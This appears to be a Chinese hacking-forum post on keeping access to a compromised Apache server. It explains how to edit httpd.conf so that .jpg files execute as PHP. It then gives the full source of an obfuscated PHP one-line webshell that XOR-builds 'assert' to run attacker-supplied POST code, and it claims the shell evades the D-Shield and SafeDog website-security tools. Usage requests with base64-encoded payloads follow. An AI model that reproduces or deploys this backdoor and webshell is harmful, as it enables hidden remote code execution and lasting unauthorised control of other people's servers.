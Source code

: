 复现
实现条件：

 webshell高权限
 可以执行系统命令
步骤

1.打开 Apache\conf\httpd.conf
2.搜索 AddType application/x-compress .Z
3.添加规则：AddType application/x-httpd-php .jpg
4.重启即可
像这样添加：

![img](https://www.t00ls.net/attachments/month_1907/1907302214cc7b94e7411ed4d1.png)

单纯访问是不会解析的，需要在http头里加上

Content-Type: application/x-httpd-php
效果图片：

![img](https://www.t00ls.net/attachments/month_1907/19073022141a24b5d949675cd6.png)

免杀shell
```
免杀PHP一句话shell，利用随机异或免杀D盾，免杀安全狗护卫神等
<?php
class VONE {
 function HALB() {
 $rlf = 'B' ^ "\x23";
 $fzq = 'D' ^ "\x37";
 $fgu = 'h' ^ "\x1b";
 $sbe = 'R' ^ "\x37";
 $gba = 'H' ^ "\x3a";
 $oya = 'Y' ^ "\x2d";
 $MWUC = $rlf . $fzq . $fgu . $sbe . $gba . $oya;
 return $MWUC;}function __destruct() {
 $RNUJ = $this->HALB();
 @$RNUJ($this->HY);}}
$vone = new VONE();
@$vone->HY = isset($_GET['id']) ? base64_decode($_POST['mr6']) : $_POST['mr6'];
?>

使用说明
是否传入id参数决定是否把流量编码

http://www.xxx.com/shell.php  
POST: mr6=phpinfo();  //与普通shell相同

http://www.xxx.com/shell.php?id随便修改)

POST: mr6=cGhwaW5mbygpOwo=  //payload的base64编码

http://www.xxx.com/shell.php  
POST: mr6=phpinfo();  //与普通shell相同
 
http://www.xxx.com/shell.php?id随便修改)
POST: mr6=cGhwaW5mbygpOwo=  //payload的base64编码
```
